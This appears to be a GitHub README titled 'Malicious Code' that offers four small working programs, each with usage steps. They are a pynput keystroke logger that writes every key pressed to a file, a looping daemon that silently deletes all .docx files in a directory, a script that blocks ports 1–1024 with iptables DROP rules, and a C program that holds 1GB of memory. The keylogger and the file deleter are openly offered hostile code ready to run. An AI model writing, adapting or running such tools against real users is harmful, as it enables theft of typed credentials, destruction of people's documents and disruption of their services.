

# Malicious Code

## Keystroke Logger

```python
from pynput import keyboard

def on_press(key):
    try:
        # Open the file in append mode
        with open("keystrokes.txt", "a") as f:
            # Write the pressed key to the file
            f.write(f"{key} pressed\n")
    except Exception as e:
        print(f"Error: {e}")

def on_release(key):
    if key == keyboard.Key.esc:
        # Stop listener on pressing the 'esc' key
        return False

# Collect events until released
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Requirements

- python
- pynput library

## How to use

- Virtual environment + pynput library: 
    ```
    python3 -m venv venv
    source venv/bin/activate
    pip install pynput
    ```
- Start the program: `python3 keystroke_logger.py`
- Recording the keystroke in a file: Open web browser and type `www.google.com`
- Stop the program: `esc`
- Navigate to see the recorded keystroke: file `keystrokes.txt`
 

# Docks File Cleaner

```
import os
import time
import logging

def monitor_directory(directory):
    """
    Continuously monitor a directory for .docx files and delete them.
    :param directory: Directory to monitor.
    """
    # Configure logging
    logging.basicConfig(
        filename="file_deletion.log",
        level=logging.INFO,
        format="%(asctime)s - %(levelname)s - %(message)s"
    )

    logging.info(f"Starting to monitor directory: {directory}")

    try:
        while True:
            # List all files in the directory
            for filename in os.listdir(directory):
                filepath = os.path.join(directory, filename)

                # Check if the file has a .docx extension
                if os.path.isfile(filepath) and filename.endswith(".docx"):
                    try:
                        os.remove(filepath)
                        logging.info(f"Deleted file: {filepath}")
                    except Exception as e:
                        logging.error(f"Error deleting file {filepath}: {e}")

            # Sleep for a short time before checking again
            time.sleep(5)

    except KeyboardInterrupt:
        logging.info("Daemon stopped by user.")
    except Exception as e:
        logging.error(f"An unexpected error occurred: {e}")

if __name__ == "__main__":
    # Specify the directory to monitor
    directory_to_monitor = "./"  # Replace with the target directory

    if not os.path.exists(directory_to_monitor):
        print(f"The directory {directory_to_monitor} does not exist.")
    else:
        monitor_directory(directory_to_monitor)
```


## How to use

- Start the program: `python3 docks_file_cleaner.py
- Navigate to see the recorded files: file `file_deletion.log`



# Block Ports

- Inbound connections to ports 1 to 1024 will be blocked.
- It can stop essential services like SSH, HTTP, FTP and email.
- To revert: `sudo iptables -F`


## How to use:
- `python3 block_ports.py`

```
import os

def block_ports():
    """
    Blocks all ports from 1 to 1024 using iptables.
    Requires root privileges to execute.
    """
    try:
        print("Blocking ports from 1 to 1024...")
        for port in range(1, 1025):
            # Construct the iptables command to block the port
            command = f"sudo iptables -A INPUT -p tcp --dport {port} -j DROP"
            os.system(command)
        print("All ports from 1 to 1024 have been blocked.")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    confirmation = input("This script will block ports 1-1024 on your system. Are you sure? (yes/no): ").strip().lower()
    if confirmation == "yes":
        block_ports()
    else:
        print("Operation canceled.")
```

# Reserve Memory

- The program reserves 1GB of memory.
- Memory is actually used when initialized.
- After use, the memory is freed and returned to the system.
- If the system is low on memory, this can cause the program to slow down or even terminate.

## How to use:
- `gcc reserve_memory.c -o reserve_memory`
- `./reserve_memory`


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    // Define the size to allocate: 1GB (1024 * 1024 * 1024 bytes)
    size_t size = 1024 * 1024 * 1024;

    // Allocate memory
    char *buffer = (char *)malloc(size);

    if (buffer == NULL) {
        printf("Failed to allocate 1GB of memory.\n");
        return 1;
    }

    printf("Successfully reserved 1GB of memory.\n");

    // Optionally, initialize the memory (e.g., to avoid lazy allocation by the OS)
    memset(buffer, 0, size);

    printf("Memory is now initialized.\n");

    // Simulate temporary usage
    printf("Press Enter to release the memory...");
    getchar();

    // Free the allocated memory
    free(buffer);
    printf("Memory released back to the system.\n");

    return 0;
}
```